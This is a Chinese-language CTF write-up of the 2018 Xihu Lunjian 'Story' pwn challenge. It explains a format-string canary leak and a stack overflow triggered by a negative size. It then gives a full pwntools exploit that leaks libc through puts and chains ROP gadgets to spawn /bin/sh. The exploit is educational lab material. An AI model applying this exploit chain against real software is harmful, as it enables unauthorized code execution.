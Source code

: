 ```yaml
---

---
```


# Story

西湖论剑2018  Stack_overflow  ROP  



## 分析

首先，判断程序的保护。发现栈上有Canary，尝试泄露。

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/Story/index_files/1572523527392.png)

**第一个洞：格式化字符串。**在静态分析中看到格式化字符串，尝试通过格式化字符串进行泄露。通过搭配gdb，确定Canary的位置（64位的优先级与32位不同，64位会优先考虑6个寄存器，随后再对栈进行考虑。）为第23个参数，因此通过 %23$p 泄露Canary的位置。

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/Story/index_files/1572524306024.png)

**第二个洞：栈溢出。**在输入“输入字符串长度”之后，如果申请的空间小于128，会自动给开1024大小。然后读取字符串到s中，而s在栈中的位置为0x90，因此通过构造字符串可触发栈溢出。而之前通过格式化字符串获取到了Canary的大小，可以在这里用到。

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/Story/index_files/1572524381739.png)

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/Story/index_files/1572524626816.png)

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/Story/index_files/1572524937703.png)

因此，我们需要覆盖
$$
0x90-0x8=0x88
$$
个A至Canary，然后将之前泄露的Canary值覆盖至此，然后通过8个字符A覆盖返回值，之后即可控制下一步执行的函数。

通过ROPgadget找到其中的ROP关键字

```assembly
pop rdi ; ret
```

来将函数参数入寄存器。

通过调用put函数将got表中的put输出，即可获取put的实际位置，从而计算出libc的偏移。在触发之后，通过ret到main函数地址来重新触发栈溢出，通过偏移计算出system和/bin/sh的地址，获取权限。



## EXP

```python
import pwn
from pwn import *

p = process('./story')
#p = remote('ctf3.linkedbyx.com',11375)
context.log_level = 'debug'
context.endian = 'little'

elf = ELF('./story')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

payload1 = '%23$p'
payload2 = '-1024'

puts_plt = elf.symbols["puts"]
puts_got = elf.got["puts"]
start_main = 0x400876
rdi = 0x400bd3 #pop rdi ; ret

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)
p.recvuntil("Hello ")
canary = int(p.recvuntil("\n"),16)
print hex(canary)
print hex(puts_plt)
print hex(puts_got)
print hex(rdi)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

p.recvuntil("You can speak your story:\n")

payload3 = "A" * 136
payload3 += p64(canary)
payload3 += "A" * 8
payload3 += p64(rdi)
payload3 += p64(puts_got)
payload3 += p64(puts_plt) 
payload3 += p64(start_main)

p.sendline(payload3)


data =  p.recvuntil("\n", drop=True)
puts = u64(data.ljust(8,'\x00'))
print hex(puts)
print puts

system_addr = puts-libc.symbols["puts"]+libc.symbols["system"]

print hex(system_addr)

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

binsh = next(libc.search('/bin/sh'))
binsh_addr = puts-libc.symbols["puts"]+binsh
print hex(binsh_addr)
payload4 = "A" * 136
payload4 += p64(canary)
payload4 += "A" * 8
payload4 += p64(rdi)
payload4 += p64(binsh_addr)
payload4 += p64(system_addr)

p.recvuntil("You can speak your story:\n")
p.sendline(payload4)


p.interactive()

```

